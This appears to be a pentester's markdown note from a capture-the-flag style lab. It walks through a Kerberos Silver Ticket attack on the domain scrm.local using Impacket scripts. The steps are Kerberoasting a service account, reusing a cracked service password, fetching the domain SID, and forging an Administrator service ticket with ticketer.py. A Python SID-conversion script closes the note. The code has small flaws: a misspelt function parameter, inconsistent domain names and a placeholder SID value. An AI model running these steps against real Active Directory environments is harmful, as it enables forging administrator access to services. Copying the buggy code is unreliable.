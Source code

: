 # Silver Ticket Attack in Kerberos

- With valid credentials:
```bash
python3 getTGT.py scrm.local/ksimpson:ksimpson 
```

- Saved ticket should be exported to KRB5CCNAME
- Find valid user SPNs. Perform `-request` if account is Kerberoastable:
```bash
python3 GetUserSPNs.py scrm.local/ksimpson -dc-host dc1.scrm.local -k -request
```

- We now have Service Prinicpal Names for a MSSQL service and have requested a TGT
- Perform offline hash cracking for the service password. 
This alone does not work for logging into the MSSQL database. 
A TGS is required. First obtain the service's TGT.
```bash
python3 getTGT.py scrm.local/sqlsvc:Pegasus60
export KRB5CCNAME=mssqlsvc.ccache
```

- Generate an NTLM hash for the service username using on online tool.
- Convert to lowercase, just to be safe. It could potentially be case sensitive.
- Obtain domain SID. This can be obtained from any user:
```bash
python3 getPac.py -targetUser administrator srcm.local/ksimpson:ksimpson
```

- Forge the TGS:
```bash
python3 ticketer.py -spn <svc_name> -user-id 500 Administrator -nthash <svc_hash> -domain-sid <domain_sid> -domain srcm.local
```
- We now have an administrator ccache

- Alternatively, to obtain the domain SID using LDAP:
```bash
ldapsearch -H ldap://dc1.srcm.local -U ksimpson -b 'DC=SCRM,DC=LOCAL' | grep -i sid

objectSid:: AFEFFFDAAAADAFAFASED398ya67x==
```

- LDAP uses it's own formatting so we need to convert it (binary to string):
```py
import struct
import base64
import sys

def convert(binay):
  version = struct.unpack('B', binary[0:1])[0]
  assert version == 1, version
  length = struct.unpack('B', binary[1:2])[0]
  authority = struct.unpack(b'>Q', b'\x00\x00' + binary[2:8])[0]
  string = 'S-%d-%d' % (version, authority)
  
  binary = binary[8:]
  assert len(binary) == 4 * length
  
  for i in range(length):
    value = struct.unpack('<L', binary[4*i:4*(i+1)])[0]
    string += '-%d' % value
    
  return string
   
b64Sid=sys.argv[1]
sid=base64.b64decode(b64Sid)
print(convert(sid))
```


